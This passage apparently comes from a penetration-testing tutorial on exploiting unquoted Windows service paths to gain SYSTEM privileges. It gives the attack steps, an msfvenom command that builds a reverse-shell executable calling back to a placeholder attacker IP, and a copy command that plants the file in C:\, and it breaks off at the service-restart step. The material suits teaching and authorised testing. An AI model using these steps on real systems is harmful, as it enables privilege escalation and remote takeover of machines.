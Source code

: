 If `BINARY_PATH_NAME` is unquoted → exploitable!

---

## ➤ **4.2.2 How to Exploit Unquoted Service Path**

### ✅ Precondition

* Service runs as SYSTEM.
* Executable path is unquoted.
* Attacker can write files to locations like `C:\` or `C:\Program Files\My`.

---

### ✅ Attack Steps

#### Step 1 – Identify vulnerable service

Use commands from the previous section.

#### Step 2 – Determine exploitable path segments

If the path is:

```
C:\Program Files\My Service\service.exe
```

It can be split into:

1. `C:\Program.exe`
2. `C:\Program Files\My.exe`
3. `C:\Program Files\My Service\service.exe`

Check if attacker can place a malicious `.exe` in `C:\` or `C:\Program Files\My`.

#### Step 3 – Create malicious executable

* Prepare a reverse shell executable or malicious payload.
* Example: Use msfvenom or create a simple reverse shell in C.

Example with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o Program.exe
```

This creates `Program.exe` which will connect back when executed.

#### Step 4 – Place the executable

Copy the malicious executable to the location:

```powershell
copy .\Program.exe C:\
```

#### Step 5 – Restart the service
